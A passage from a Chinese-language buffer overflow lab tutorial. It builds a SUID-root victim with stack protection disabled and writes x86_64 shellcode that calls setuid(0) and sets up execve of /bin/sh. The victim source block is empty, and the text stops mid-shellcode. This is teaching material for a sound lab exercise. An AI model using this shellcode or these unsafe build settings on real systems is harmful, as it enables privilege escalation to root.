 ```c
```

其中的 `printf` 语句用于在构造输入数据前获得 `buffer` 运行时的地址。

```bash
cc -o victim victim.c -fno-stack-protector -g -z execstack
sudo chown root:root victim
sudo chmod 4755 victim
```

其中 `-fno-stack-protector` 表示关闭编译器对栈溢出的保护，`-z execstack` 使得栈上的二进制代码可被执行。之后的两条命令使得被攻击的程序具有 SUID 权限（可使用 `setuid(0)` 提升至 `root`）。

### 编写 Shellcode
Shellcode，即为一段代码，它被执行后会打开一个 Shell（如 `/bin/sh`）。

通过查阅 Linux 与 libc 相关的源代码与文档，可以得知，在 x86_64 平台下，`setuid` 系统调用的编号为 105、`execve` 系统调用的编号为 59，并且系统调用的编号通过 `rax` 传递，前三个参数通过分别 `rdi`、`rsi`、`rdx` 传递，使用 `syscall` 指令执行系统调用。

为了向 `execve` 传递 Shell 的路径，我们将 `/bin/sh` 这段字符串转换为二进制，以整数的形式写入汇编代码，并将其压入栈中，此时的栈地址即为这段字符串的地址。

需要注意的是，编译出的二进制代码中不能含有 0 字节（否则作为字符串会被截断）。以下的代码中使用了一些技巧，如：将把一个仅有低八位不是 0 的整数赋值给 `rax` 改为赋值给 `al`，以避免汇编后二进制代码中出现 64 位源操作数中的 0；使用 `xor` 代替 `mov` 产生 0 等。

```x86asm
# This shellcode should first elevate the current process to root, then
# write "/bin/sh" (or it's equivalent) to memory, get its address, and
# invoke a "execve" syscall to spawn a shell.

.global shellcode
shellcode:
    # In order to get root privilege, we should call setuid(0) first.
    # According to Linux header's /arch/x86/include/generated/uapi/asm/unistd_64.h,
    # the id of execve syscall is __NR_setuid = 105
    ## movq $105, %rax
    xorq %rax, %rax
    movb $105, %al

    # int setuid (uid_t uid);
    xorq %rdi, %rdi # Pass argument1 with rdi

    # Invoke a setuid syscall
    syscall

    # Now this process is running under root, so we should spawn a shell now.
    # We can use execve syscall to spawn /bin/sh, but first we should put the string
    # '/bin/sh' to memory.
    # The easiest way to put a string to memory is pushing it to the stack.
    # But the following instruction contain a '\0', which can't be passed inside a string.
    # movq $0x0068732f6e69622f, %rax # Reverse of "/bin/sh\0" since it's little endian
    # We can use xor to produce zeros.
    movq $0x2f62696e2f7368ff, %rax # "/bin/sh\xFF"
    xorb %al, %al
    bswap %rax # Reverse byte order since it's little endian
    pushq %rax

    # According to Linux header's /arch/x86/include/generated/uapi/asm/unistd_64.h,
    # the id of execve syscall is __NR_execve = 59
    ## movq $59, %rax
    xorq %rax, %rax
    movb $59, %al

    # int execve (const char *filename, char *const argv [], char *const envp[]);
    movq %rsp, %rdi # Pass argument1 with rdi

    # argv[0] should be filename, and argv[] must end with a NULL, su argv[1] = NULL
```